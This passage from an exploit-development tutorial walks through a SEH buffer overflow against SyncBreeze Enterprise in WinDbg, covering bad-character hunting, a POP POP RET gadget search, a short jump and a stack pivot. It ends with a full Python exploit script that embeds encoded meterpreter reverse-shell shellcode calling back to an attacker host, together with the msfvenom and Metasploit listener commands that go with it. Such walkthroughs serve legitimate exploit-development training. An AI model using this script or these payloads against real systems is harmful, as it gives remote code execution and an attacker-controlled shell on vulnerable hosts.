In WinDbg, you will first see the initial access violation at `libpal!SCA_ConfigObj::Deserialize+0x1d`. Press `g` again to let the exception propagate. The debugger will break with a second access violation, and this time `EIP` will be `0x42424242`:

```
(1bfc.a38): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=00000000 ecx=42424242 edx=77b79280 esi=00000000 edi=00000000
eip=42424242 esp=01acf3e8 ebp=01acf408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  fs=0053  gs=002b             efl=00010246
42424242 ??              ???
```

Now that we control `EIP`, we can inspect the stack to see which bytes from our `badchars` array survived. The `EstablisherFrame` argument passed to the exception handler points to the SEH record. We can find it by dumping the stack:

```
0:010> dds esp L5
01acf3e8  77b79262 ntdll!ExecuteHandler2+0x26
01acf3ec  01acf4e8
01acf3f0  01acff44
01acf3f4  01acf538
01acf3f8  01acf474
```

The third value, `01acff44`, is the `EstablisherFrame`. Dumping the bytes at that address reveals our buffer:

```
0:010> db 01acff44
01acff44  41 41 41 41 42 42 42 42-01 00 00 00 ec 07 5e 00  AAAABBBB......^.
01acff54  10 3e 5e 00 20 39 f1 00-72 40 5e 00 50 05 a7 00  .>^. 9..r@^.P...
...
```

Look closely at the sequence after the four `42` bytes. We expect to see `01 02 03 04 ...`, but instead we see `01 00 00 00`. This means the byte `\x02` is missing  it was either stripped or caused the buffer to terminate. Therefore, `\x02` is a bad character for this exploit.

We now remove `\x02` from the `badchars` array, restart SyncBreeze, re‑attach the debugger, and repeat the process. Each time, the first missing byte in the sequence is the next bad character. We continue until the entire array survives intact.

After iterating through this process, we find the following bytes are bad and must be avoided:

```
0x00, 0x02, 0x0A, 0x0D, 0xF8, 0xFD
```

- `0x00`  null byte, terminates strings.
- `0x02`  stripped by the protocol parser.
- `0x0A`  line feed, often treated as a newline.
- `0x0D`  carriage return, also a newline character.
- `0xF8`  unknown, but consistently dropped.
- `0xFD`  unknown, but consistently dropped.

These bytes must be avoided when searching for a `POP POP RET` gadget and when generating shellcode. Any address containing one of these bytes cannot be used, and the encoder used to generate shellcode must be configured to exclude them.

## Searching for P/P/R Instruction Sequence
Based on what we discussed earlier, we need a `POP POP RET` (P/P/R) instruction sequence to redirect execution flow back to our buffer. When searching for this sequence, we must consider several SEH overflow protections that may be in place. To automate the process of identifying which security measures are enabled for each loaded module, we can use a WinDbg extension called **Narly**. Narly automates the process of checking the `DllCharacteristics` of every module loaded into the SyncBreeze process.

To use Narly, we first need to download it. I obtained mine from the following URL:

```
https://code.google.com/archive/p/narly/downloads
```

The archive is named `narly_0.2a.zip`. Inside it, you will find `narly.dll`. This DLL needs to be placed inside the following directory:

```
C:\Users\<username>\AppData\Local\DBG\UserExtensions
```

To verify that Narly is properly configured, restart SyncBreeze, attach the process to WinDbg, and once the debugger breaks into the process, run the following command:

```
0:001> .load narly

      __s|I}*!{a.                        ._s,aan2*a
     _wY1+~-    )S,                     .ae"~=:...:X
   .vXl+:.       -4c                   <2+=|==::..:d
   vvi=;..        -?o,                =2=+==:::...=d
  )nv=:.            )5,              .2=--.......-=d
  ue+::              -*s             <c .        .=d
  m>==::..     ._,     <s,           )c           :d
  #==viii|===; {Xs=,    -{s          )c         ..:d
  Z;{nnonnvvii;v(-{%=.    ~s,        )e:====||iiv%=d
  X={oooonvvIl;3;  -{%,    -*>       )2<onnnnvnnnn>d
  X=)vvvvIliii:3;    -!s.   :)s.     )e<oonvlllllIid
  X=<lllliii|=:n;      -1c.  +|1,    )z<nvii||+|+|vX
  S=<lli|||=:: n;        "nc  -s%;   )c=ovl|++==+=vo
  X=<i||+=; . .n`          "1>.-{%i. )c<Xnnli||++=vn
  X=iii>==-.  :o`            "1,:+iI,)c:Sonnvli||=v(
  X>{ii+;:-  .u(               "o,-{Iw(:nvvvllii=v2
  S=i||;:. .=u(                 -!o,+I(:iiillii|ie`
  2>v|==__su?`                    -?o,-:==||iisv"
  {nvnI!""~                         -!sasvv}""`

             by Nephi Johnson (d0c_s4vage)
                      N for gnarly!

Available commands:

    !nmod     - display /SafeSEH, /GS, DEP, and ASLR info for
                all loaded modules
```

If you see this output, Narly is properly configured. Next, run the `!nmod` command that Narly provides:

```
0:001> !nmod
00400000 00463000 syncbrs              /SafeSEH OFF                C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
00a20000 00ad5000 libsync              /SafeSEH OFF                C:\Program Files (x86)\Sync Breeze Enterprise\bin\libsync.dll
00ae0000 00bb4000 libpal               /SafeSEH OFF                C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
10000000 10226000 libspp               /SafeSEH OFF                C:\Program Files (x86)\Sync Breeze Enterprise\bin\libspp.dll
74fb0000 74fd5000 Wldp                 /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\Wldp.dll
74fe0000 755f9000 windows_storage      /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\windows.storage.dll
75600000 75621000 SspiCli              /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\SspiCli.dll
75630000 7563e000 winrnr               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\System32\winrnr.dll
75640000 756d0000 DNSAPI               /SafeSEH ON  /GS *ASLR *DEP C:\Windows\SYSTEM32\DNSAPI.dll
<SNIP>
```

The output lists every loaded module along with its protections. The `/SafeSEH OFF` entries indicate that SyncBreeze and its bundled modules were compiled without SafeSEH. Since DEP and ASLR are not displayed for those modules, it means they are also disabled.

To make the exploit reliable and portable across Windows platforms, it is good practice to find a `POP r32; POP r32; RET` sequence located inside a module that is part of the vulnerable application rather than a system DLL. Based on the Narly output, `libspp.dll` is an excellent candidate — it was compiled without any protections, it is loaded at an address that does not contain null bytes, and it belongs to SyncBreeze itself.

We will use `libspp.dll` and search for a P/P/R sequence within it. To do this, we need the start and end memory addresses of the module and the x86 opcodes for the relevant instructions. We must also avoid using a `pop esp` instruction, as it would set the stack pointer to an arbitrary address and disrupt the stack frame.

First, let's get the start and end addresses of `libspp.dll`:

```
0:001> lm m libspp
Browse full module list
start    end        module name
10000000 10226000   libspp     (deferred)
```

Next, we need the opcodes for the `POP` and `RET` instructions. We can use `nasm_shell` from Metasploit for this:

```
$ msf-nasm_shell
nasm > pop eax
00000000  58                pop eax
nasm > pop ebx
00000000  5B                pop ebx
nasm > pop ecx
00000000  59                pop ecx
nasm > pop edx
00000000  5A                pop edx
nasm > pop esi
00000000  5E                pop esi
nasm > pop edi
00000000  5F                pop edi
nasm > pop ebp
00000000  5D                pop ebp
nasm > ret
00000000  C3                ret
nasm >
```

From the NASM output, the `POP` opcodes are arranged sequentially from `0x58` to `0x5F`, and the `RET` opcode is `0xC3`. We can use these values in a WinDbg script to search for all possible `POP r32; POP r32; RET` combinations:

```
.block
{
    .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10226000 $t0 $t1 c3
        }
    }
}
```

Save this file as `ppr.wds` (the `.wds` extension is not mandatory). Execute the script in WinDbg:

```
0:001> $><C:\Users\mikias\Desktop\find_ppr.wds
0x1015a2f0
0x100087dd
0x10008808
0x1000881a
0x10008829
0x1001bb8a
<SNIP>
```

These addresses all reside within `libspp.dll`. We can pick one at random and inspect it to confirm it contains a valid P/P/R sequence. Let's use the first address from the list:

```
0:001> u 1015a2f0 L3
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libspp.dll
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
1015a2f1 5b              pop     ebx
1015a2f2 c3              ret
```

As shown, the address points to a valid `pop eax; pop ebx; ret` sequence. It also does not contain any of the bad characters we identified earlier. Now that we have our P/P/R address, we can update the PoC script:

```python
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * 128
    inputBuffer += pack("<L", (0x1015a2f0))  # pop eax; pop ebx; ret
    inputBuffer += b"\x43" * (size - len(inputBuffer))

<SNIP>
```

Note the line `pack("<L", (0x1015a2f0))` — this is where we place our P/P/R address instead of the four `\x42` bytes.

Now let's rerun the updated PoC script:

```
(dc0.1ba0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=007dfa0c ecx=007dff08 edx=007df9c4 esi=007dff08 edi=007dfb10
eip=00af2a9d esp=007df998 ebp=007dfeb8 iopl=0         nv up ei pl nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
libpal!SCA_ConfigObj::Deserialize+0x1d:
00af2a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:001> !exchain
007dfe0c: libpal!md5_starts+149fb (00b6df5b)
007dff44: libspp!pcre_exec+16460 (1015a2f0)
Invalid exception stack at 41414141
0:001> u 1015a2f0 L3
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
1015a2f1 5b              pop     ebx
1015a2f2 c3              ret
```

Analyzing the exception chain with `!exchain`, we can see that we have overwritten the SEH record with our P/P/R instruction sequence. Now let's set a breakpoint on the P/P/R instruction sequence and let the debugger handle the exception:

```
0:001> bp 0x1015a2f0
0:001> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f0 esp=007df3e8 ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
```

Once we hit the breakpoint, we single-step through each `POP` instruction and check the address we will be returning into:

```
0:001> r
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f0 esp=007df3e8 ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:001> t
eax=77b79262 ebx=00000000 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f1 esp=007df3ec ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx
0:001> t
eax=77b79262 ebx=007df4e8 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f2 esp=007df3f0 ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret
0:001> dd poi(esp) L8
007dff44  41414141 1015a2f0 43434343 43434343
007dff54  43434343 43434343 43434343 43434343
0:001> t
eax=77b79262 ebx=007df4e8 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=007dff44 esp=007df3f4 ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
007dff44 41              inc     ecx
```

After executing the `RET` instruction, execution returns into the stack within our controlled buffer, right before the overwritten `_except_handler` address. This confirms that we have successfully redirected execution flow into our buffer, and we can now prepare the final stage of the exploit.

## Island Hopping

We know that the `_EXCEPTION_REGISTRATION_RECORD` begins with the `Next` member, which points to the next `_EXCEPTION_REGISTRATION_RECORD`. After redirecting execution on the stack with our P/P/R sequence, the next instructions executed will be those generated by the opcodes of the P/P/R memory address. We can verify this by inspecting the `EIP`:

```
0:001> u eip L8
007dff44 41              inc     ecx
007dff45 41              inc     ecx
007dff46 41              inc     ecx
007dff47 41              inc     ecx
007dff48 f0a215104343    lock mov byte ptr ds:[43431015h],al
007dff4e 43              inc     ebx
007dff4f 43              inc     ebx
007dff50 43              inc     ebx
0:001> dd 0x43431015
43431015  ???????? ???????? ???????? ????????
43431025  ???????? ???????? ???????? ????????
43431035  ???????? ???????? ???????? ????????
43431045  ???????? ???????? ???????? ????????
43431055  ???????? ???????? ???????? ????????
43431065  ???????? ???????? ???????? ????????
43431075  ???????? ???????? ???????? ????????
43431085  ???????? ???????? ???????? ????????
```

Note the line `007dff48 f0a215104343    lock mov byte ptr ds:[43431015h],al`. The address `0x43431015` comes from the bytes `f0a215104343` in little‑endian format. The P/P/R address is translated into a `lock mov byte` instruction when executed as code. This instruction uses our buffer value `43431015h` as the destination for writing the contents of the `AL` register. Since this memory address is not mapped, it triggers an access violation and breaks our exploit.

To overcome this, we use the first four bytes of the `Next` field of the SEH record to assemble a short jump instruction that redirects execution over the current SEH record and into our shellcode, which for now is just placeholder data. This is called a **short jump** in assembly.

Short jumps are also known as **relative jumps**. They can be relocated anywhere in memory without changing their opcodes. The first opcode of a short jump is always `0xEB`, and the second opcode is the relative offset, which ranges from `0x00` to `0x7F` for forward jumps and from `0x80` to `0xFF` for backward jumps.

We can use the `a` command in WinDbg to assemble the short jump and obtain the opcodes:

```
0:001> r
eax=77b79262 ebx=007df4e8 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=007dff44 esp=007df3f4 ebp=007df408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
007dff44 41              inc     ecx
0:001> dds eip L4
007dff44  41414141
007dff48  1015a2f0 libspp!pcre_exec+0x16460
007dff4c  43434343
007dff50  43434343
0:001> a
007dff44 jmp 0x007dff4c
jmp 0x007dff4c
007dff46

0:001> u eip L1
007dff44 eb06            jmp     007dff4c
0:001> dds eip L4
007dff44  414106eb
007dff48  1015a2f0 libspp!pcre_exec+0x16460
007dff4c  43434343
007dff50  43434343
```

The assembled command takes an address as an argument specifying where the instructions should be placed in memory. If used without arguments, WinDbg assembles at the current `EIP`.

As shown above, the jump offset is six bytes (`eb06`), where `06` is the offset. This matches the length of the P/P/R address. The offset is calculated from the beginning of the jump instruction, including the `0xEB` opcode and the offset byte itself.

Now let's update our script with the short jump:

```python
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * 124
    inputBuffer += pack("<L", (0x06eb9090))  # NSEH
    inputBuffer += pack("<L", (0x1015a2f0))  # pop eax; pop ebx; ret
    inputBuffer += b"\x41" * (size - len(inputBuffer))

<SNIP>
```

We restart SyncBreeze, attach the debugger, set a breakpoint at our P/P/R instruction, and run the exploit script:

```
(1e0.1fc4): Break instruction exception - code 80000003 (first chance)
ntdll!DbgBreakPoint:
00007ffe`51e110d0 cc              int     3
0:008> g
(1e0.2044): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for libpal.dll
libpal!SCA_ConfigObj::Deserialize+0x1d:
00812a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:001:x86> bp 0x1015a2f0
*** WARNING: Unable to verify checksum for libspp.dll
0:001:x86> g
Breakpoint 0 hit
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:001:x86> r
eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f0 esp=007ff3e8 ebp=007ff408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:001:x86> t
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx
0:001:x86> t
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret
0:001:x86> r
eax=77b79262 ebx=007ff4e8 ecx=1015a2f0 edx=77b79280 esi=00000000 edi=00000000
eip=1015a2f2 esp=007ff3f0 ebp=007ff408 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret
0:001:x86> t
007fff44 90              nop
0:001:x86> t
007fff45 90              nop
0:001:x86> t
007fff46 eb06            jmp     007fff4e
0:001:x86> dd 007fff4e 0x06
                          ^ Range error in 'dd 007fff4e 0x06'
0:001:x86> dd 007fff4e - 0x06
007fff48  1015a2f0 41414141 41414141 41414141
007fff58  41414141 41414141 41414141 41414141
007fff68  41414141 41414141 41414141 41414141
<SNIP>
```

The output confirms that we have executed our short jump and landed in our buffer right after the SEH record. Let's inspect our `EIP`:

```
0:001:x86> dd eip L30
007fff46  a2f006eb 41411015 41414141 41414141
007fff56  41414141 41414141 41414141 41414141
007fff66  41414141 41414141 41414141 41414141
007fff76  41414141 41414141 41414141 41414141
007fff86  41414141 41414141 41414141 41414141
007fff96  41414141 41414141 41414141 41414141
007fffa6  41414141 41414141 41414141 41414141
007fffb6  41414141 41414141 41414141 41414141
007fffc6  41414141 ff004141 b570007f 61f277b6
007fffd6  0000d190 ffec0000 827e007f ffff77b5
007fffe6  93bfffff 000077b7 00000000 3e100000
007ffff6  39480084 000000f6 5a4d0000 00030090
0:001:x86> !teb
Wow64 TEB32 at 0025b000
    ExceptionList:        007ff3fc
    StackBase:            00800000
    StackLimit:           007fe000
    SubSystemTib:         00000000
```

We see that our `StackBase` is `00800000`. Note the values at `007fffe6`:

```
007fffe6  93bfffff 000077b7 00000000 3e100000
007ffff6  39480084 000000f6 5a4d0000 00030090
```

We are very close to the beginning of our stack. This space may not be enough for our reverse shell. Our PoC sends around 1000 bytes of data. Let's check the stack to see if we can find it. We update our PoC to include dummy shellcode:

```python
try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x43" * 400

    inputBuffer = b"\x41" * 124
    inputBuffer += pack("<L", (0x06eb9090))  # NSEH
    inputBuffer += pack("<L", (0x1015a2f0))  # pop eax; pop ebx; ret
    inputBuffer += b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer += shellcode

<SNIP>
```

Note the changes in the script. We run the latest PoC and search for NOP instructions followed by bytes of our shellcode right after taking the short jump:

```
(19bc.259c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for libpal.dll
libpal!SCA_ConfigObj::Deserialize+0x1d:
00832a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:008:x86> bp 0x1015a2f0
*** WARNING: Unable to verify checksum for libspp.dll
0:008:x86> g
Breakpoint 0 hit
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:008:x86> t
Breakpoint 0 hit
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:008:x86> t
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx

0:008:x86> t
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret
0:008:x86> t
01b1ff44 90              nop
0:008:x86> t
01b1ff45 90              nop
0:008:x86> t
01b1ff46 eb06            jmp     01b1ff4e

0:008:x86> !teb
Wow64 TEB32 at 002c8000
    ExceptionList:        01b1f3fc
    StackBase:            01b20000
    StackLimit:           01b1e000
    SubSystemTib:         00000000
    FiberData:            00001e00
<SNIP>
```

Now let's search the stack using the `StackLimit` and `StackBase`:

```
0:008:x86> s -b 01ade000 01ae0000 90 90 90 90 43 43 43 43 43 43 43 43
01adfc60  90 90 90 90 43 43 43 43-43 43 43 43 43 43 43 43  ....CCCCCCCCCCCC
0:008:x86> dd 01adfc60 L65
01adfc60  90909090 43434343 43434343 43434343
01adfc70  43434343 43434343 43434343 43434343
01adfc80  43434343 43434343 43434343 43434343
01adfc90  43434343 43434343 43434343 43434343
<SNIP>
```

We found our shellcode on the stack starting at address `01adfc64`. We say `01adfc64` instead of `01adfc60` because the first four bytes are NOPs and not part of our shellcode. The next step is to find the offset from our current stack pointer to the beginning of our shellcode. This will help us use the limited space we have to assemble instructions that allow us to "island hop" and redirect execution to our shellcode.

To do this, we can use the `?` command:

```
0:008:x86> ? 01adfc64 - @esp
Evaluate expression: 2160 = 00000870
```

After the limited space after the short jump, we need to assemble a few instructions to increase the stack pointer by `0x870` bytes, followed by a `jmp esp` to jump to our shellcode.

Let's use NASM shell:

```
nasm > add esp, 0x870
00000000  81C470080000      add esp,0x870
```

To avoid null bytes, one option is to use smaller jumps of less than `0x7F` until we reach the desired offset. However, assembly language provides better alternatives. Instead of performing an `ADD` operation on the `ESP` register, we can reference the `SP` register to perform arithmetic on the lower 16 bits. This helps us get opcodes that do not contain any bad characters and also generates an opcode for a `jmp esp` instruction, which will be used to jump into our shellcode right after `ESP` has been adjusted.

```
nasm > add sp, 0x870
00000000  6681C47008        add sp,0x870
nasm > jmp esp
00000000  FF                db 0xff
00000001  E4                db 0xe4
```

Let's update our script and run the latest version. We also set a breakpoint at our P/P/R address after the first exception is raised, and single‑step through to check the `ADD` operation and confirm that our stack alignment is successful before the jump instruction.

```
(824.1e0c): Break instruction exception - code 80000003 (first chance)
ntdll!DbgBreakPoint:
00007ffe`51e110d0 cc              int     3
0:008> g
(824.161c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for libpal.dll
libpal!SCA_ConfigObj::Deserialize+0x1d:
00862a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:010:x86> bp 0x1015a2f0
*** WARNING: Unable to verify checksum for libspp.dll
0:010:x86> g
Breakpoint 0 hit
libspp!pcre_exec+0x16460:
1015a2f0 58              pop     eax
0:010:x86> t
libspp!pcre_exec+0x16461:
1015a2f1 5b              pop     ebx
0:010:x86> t
libspp!pcre_exec+0x16462:
1015a2f2 c3              ret
0:010:x86> t
01d6ff44 90              nop
0:010:x86> t
01d6ff45 90              nop
0:010:x86> t
01d6ff46 eb06            jmp     01d6ff4e
0:010:x86> t
01d6ff4e 6681c47008      add     sp,870h
0:010:x86> t
01d6ff53 ffe4            jmp     esp {01d6fc64}
0:010:x86> dd @esp L4
01d6fc64  90909090 90909090 43434343 43434343
0:010:x86> t
01d6fc64 90              nop
```

The `ADD SP` instruction successfully adjusts the stack pointer, and the `JMP ESP` instruction redirects execution directly into our shellcode. We are now ready to replace the dummy shellcode with a real payload.

## Getting Shell

## Getting the Reverse Shell

Now comes the exciting part: obtaining a reverse shell on the target. We will generate the payload with `msfvenom`, update our exploit script, start a listener, and then trigger the exploit. In the final script we also increase the size of the NOP slide to ensure the shellcode decoder has enough space to decode the payload on the stack without mangling it.

First, generate the reverse shell payload using `msfvenom`. We must exclude all the bad characters we identified earlier (`\x00`, `\x02`, `\x0A`, `\x0D`, `\xF8`, `\xFD`).

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.9 LPORT=443 -b "\x00\x02\x0A\x0D\xF8\xFD" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of python file: 2136 bytes
shellcode =  b""
shellcode += b"\xb8\xd9\x3e\x47\x33\xd9\xc2\xd9\x74\x24\xf4"
shellcode += b"\x5a\x29\xc9\xb1\x59\x83\xc2\x04\x31\x42\x10"
<SNIP>
```

Notice how the bad characters are passed to the encoder so that they are not present in the final shellcode.

With the shellcode generated, we update our exploit script. The final version is shown below.

```python
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x90" * 20
    shellcode += b""
    shellcode += b"\xb8\xd9\x3e\x47\x33\xd9\xc2\xd9\x74\x24\xf4"
    shellcode += b"\x5a\x29\xc9\xb1\x59\x83\xc2\x04\x31\x42\x10"
    shellcode += b"\x03\x42\x10\x3b\xcb\xbb\xdb\x34\x34\x44\x1c"
    shellcode += b"\x2a\xbc\xa1\x2d\x78\xda\xa2\x1c\x4c\xa8\xe7"
    shellcode += b"\xac\x27\xfc\x13\x9c\xc8\x8a\x6e\xf6\x39\x3a"
    shellcode += b"\xc4\x20\x74\x84\x75\x10\x17\x78\x84\x45\xf7"
    shellcode += b"\x41\x47\x98\xf6\x86\x11\xd6\x17\x5a\xf5\x93"
    shellcode += b"\xb5\x4b\x72\xe1\x05\x6d\x54\x6d\x35\x15\xd1"
    shellcode += b"\xb2\xc1\xa9\xd8\xe2\x79\xb9\x83\x22\x78\x6e"
    shellcode += b"\xb8\x6b\x62\x15\x76\x1f\xae\x5c\xb8\x1f\x45"
    shellcode += b"\x6a\x31\xde\x8f\xa2\x85\x20\xe0\xc8\xa9\xa2"
    shellcode += b"\x39\xea\x51\xd1\x31\x08\xef\xe2\x82\x72\x2b"
    shellcode += b"\x66\x14\xd4\xb8\xd0\xf0\xe4\x6d\x86\x73\xea"
    shellcode += b"\xda\xcc\xdb\xef\xdd\x01\x50\x0b\x55\xa4\xb6"
    shellcode += b"\x9d\x2d\x83\x12\xc5\xf6\xaa\x03\xa3\x59\xd2"
    shellcode += b"\x53\x0b\x05\x76\x18\xbe\x50\x06\xe1\x40\x5d"
    shellcode += b"\x5a\x75\x8c\x90\x65\x85\x9a\xa3\x16\xb7\x05"
    shellcode += b"\x18\xb1\xfb\xce\x86\x46\x8a\xd9\x38\x98\x34"
    shellcode += b"\x89\xc6\x19\x44\x83\x0c\x4d\x14\xbb\xa5\xee"
    shellcode += b"\xff\x3b\x49\x3b\x95\x31\xdd\xce\x69\x46\x14"
    shellcode += b"\xa7\x6b\x46\x27\x8c\xe2\xa0\x77\xa2\xa4\x7c"
    shellcode += b"\x38\x12\x04\x2d\xd0\x78\x8b\x12\xc0\x82\x46"
    shellcode += b"\x3b\x6b\x6d\x3e\x13\x04\x14\x1b\xef\xb5\xd9"
    shellcode += b"\xb6\x95\xf6\x52\x32\x69\xb8\x92\x37\x79\xad"
    shellcode += b"\xc4\xb7\x81\x2e\x61\xb7\xeb\x2a\x23\xe0\x83"
    shellcode += b"\x30\x12\xc6\x0b\xca\x71\x55\x4b\x34\x04\x6f"
    shellcode += b"\x27\x03\x92\xcf\x5f\x6c\x72\xcf\x9f\x3a\x18"
    shellcode += b"\xcf\xf7\x9a\x78\x9c\xe2\xe4\x54\xb1\xbe\x70"
    shellcode += b"\x57\xe3\x13\xd2\x3f\x09\x4d\x14\xe0\xf2\xb8"
    shellcode += b"\x26\xe7\x0c\x3e\x01\x40\x64\xc0\x11\x70\x74"
    shellcode += b"\xaa\x91\x20\x1c\x21\xbd\xcf\xec\xca\x14\x98"
    shellcode += b"\x64\x40\xf9\x6a\x15\x55\xd0\x2b\x8b\x56\xd7"
    shellcode += b"\xf7\x3c\x2c\x98\x08\xbd\xd1\xb0\x6c\xbe\xd1"
    shellcode += b"\xbc\x92\x83\x07\x85\xe0\xc2\x9b\xb2\xfb\x71"
    shellcode += b"\xb9\x93\x91\x79\xed\xe4\xb3"
    shellcode += b"\x43" * (400 - len(shellcode))

    inputBuffer = b"\x41" * 124
    inputBuffer += pack("<L", (0x06eb9090))  # NSEH
    inputBuffer += pack("<L", (0x1015a2f0))  # pop eax; pop ebx; ret
    inputBuffer += b"\x90" * 2
    inputBuffer += b"\x66\x81\xC4\x70\x08"  # add sp, 0x870
    inputBuffer += b"\xff\xe4"              # jmp esp
    inputBuffer += b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer += shellcode

    header = b"\x75\x19\xba\xab"
    header += b"\x03\x00\x00\x00"
    header += b"\x00\x40\x00\x00"
    header += pack('<l', len(inputBuffer))
    header += pack('<l', len(inputBuffer))
    header += pack('<l', inputBuffer[-1])

    buf = header + inputBuffer

    print("Sending evil buffer ...")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((server, port))
    s.send(buf)
    s.close()

    print("Done!")

except socket.error:
    print("Could not connect!")
```

Before executing the script, start a Metasploit listener on your attacker machine. Make sure to change the IP address to your own attacking machine's IP.

```
$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.0.0.9; set LPORT 443; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 10.0.0.9
LPORT => 443
[*] Started reverse TCP handler on 10.0.0.9:443
```

Now restart SyncBreeze, attach it to the debugger, and rerun the script. When the exception occurs, let the debugger continue execution without any breakpoints.

```
(1af0.1d0c): Break instruction exception - code 80000003 (first chance)
eax=0023f000 ebx=00000000 ecx=77b9dc50 edx=77b9dc50 esi=77b9dc50 edi=77b9dc50
eip=77b65560 esp=01abff44 ebp=01abff70 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!DbgBreakPoint:
77b65560 cc              int     3
0:008> g
(1af0.171c): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Sync Breeze Enterprise\bin\libpal.dll
eax=41414141 ebx=006dfa0c ecx=006dff08 edx=006df9c4 esi=006dff08 edi=006dfb10
eip=007f2a9d esp=006df998 ebp=006dfeb8 iopl=0         nv up ei ng nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010286
libpal!SCA_ConfigObj::Deserialize+0x1d:
007f2a9d ff5024          call    dword ptr [eax+24h]  ds:002b:41414165=????????
0:001> g
```

If you return to your Metasploit listener, you should now have a reverse shell.

```
